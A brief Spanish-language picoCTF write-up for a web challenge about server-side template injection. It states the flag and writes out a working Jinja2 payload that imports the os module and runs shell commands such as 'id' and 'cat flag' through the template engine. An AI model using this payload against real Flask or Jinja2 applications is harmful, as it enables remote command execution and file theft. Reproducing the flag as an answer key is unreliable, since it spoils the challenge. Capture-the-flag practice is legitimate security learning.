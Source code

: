 ## Descripción

I made a cool website where you can announce whatever you want! Try it out!

Additional details will be available after launching your challenge instance.
## Solución
# picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_4675f3fa}
## Notas Adicionales

donde ingresas el texto reacciona aciertas cosas por ejemplo: {{7*7}}, y con este codigo: {{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}, solo modificas el ID por cat flag
## Referencias
https://onsecurity.io/article/server-side-template-injection-with-jinja2
